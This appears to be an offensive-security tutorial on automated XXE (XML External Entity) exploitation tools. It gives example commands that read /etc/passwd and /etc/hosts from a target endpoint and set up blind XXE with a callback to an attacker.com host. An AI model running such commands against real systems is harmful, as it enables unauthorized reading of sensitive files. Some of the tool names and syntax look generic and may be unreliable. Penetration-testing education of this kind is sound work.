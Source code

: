 ```yaml
---
title: Automated XXE Tools for Efficient XML Exploitation
description: Streamline XML External Entity attacks with automated tools for better
  speed and coverage.
keywords:
- Automated XXE tools
- XML External Entity exploitation
- XXE payload generator
- XXE fuzzer
- Burp XXE plugin
- Blind XXE toolkit
- XXE attack automation
- tool configuration
- tool output analysis
---
```


# Automated XXE Tools

## Context

This article aims to enable offensive operators to efficiently leverage automated tools for XXE (XML External Entity) exploitation. Readers are expected to understand XML structure and parsing, entity declaration, DTD processing, manual XXE attack methodologies, and techniques for detecting XXE vulnerabilities.

## Theory

### Purpose and Scope of Automated XXE Tools

Automated XXE tools are designed to streamline the process of identifying and exploiting XML External Entity vulnerabilities. These tools enhance coverage, speed, and consistency in executing XXE attacks. A typical workflow with these tools includes payload generation, injection, response analysis, and reporting.

### Categories of Automated XXE Tools

Automated XXE tools can be categorized into payload generators, fuzzers, exploitation frameworks, and proxy plugins. The selection of a tool depends on the target environment, the goals of the attack, and the specific integration needs of the operator.

### Automation Logic and Output Interpretation

These tools work by injecting crafted XML into the target, monitoring responses, and flagging potential indicators of XXE. They often include payload variants to evade input filters and Web Application Firewalls (WAFs). Automated tools may also chain multiple payloads for effective blind XXE detection.

## Practice

### Automated XXE Exploitation with XXEinjector

- **Step 1:** Launch the XXEinjector tool targeting a vulnerable endpoint with a specified XML data and file exfiltration payload.
  
  ```bash
  xxeinjector --url http://target/vuln_endpoint --data '<xml>...</xml>' --file /etc/passwd
  ```

- **Outcome:** XXEinjector will display extracted file contents or error messages, resulting in automated retrieval of sensitive files.

### Blind XXE Automation with Blind XXE Toolkit

- **Step 1:** Use the Blind XXE Toolkit to configure an out-of-band XXE detection via an attacker-controlled callback URL.
  
  ```bash
  blind-xxe --url http://target/vuln_endpoint --callback http://attacker.com/callback
  ```

- **Outcome:** The toolkit logs incoming DNS/HTTP requests, confirming blind XXE through external interaction with attacker infrastructure.

### Automated Payload Generation with XXE Payload Generator

- **Step 1:** Generate an XXE payload for file disclosure using the payload generator.
  
  ```bash
  xxe-payload-generator --type file_read --file /etc/hosts
  ```

- **Outcome:** The tool creates a valid XML payload for injection, enabling rapid payload development.

### Proxy-based XXE Automation with Burp XXE Plugin

- **Step 1:** Configure Burp Suite with the XXE plugin to intercept and manipulate target XML requests.
  
  - **Configure Plugin:** Activate the XXE plugin within Burp Suite.
  - **Select Payloads:** Choose appropriate payloads for automated scanning.

- **Outcome:** The plugin highlights vulnerable requests, exploiting XXE vulnerabilities and displaying extracted data.

## Tools

- **xxeinjector**
- **blind-xxe**
- **xxe-payload-generator**
- **Burp Suite XXE Plugin**

These tools represent a powerful suite for automating XXE attack workflows, improving the efficiency and effectiveness of penetration testing operations.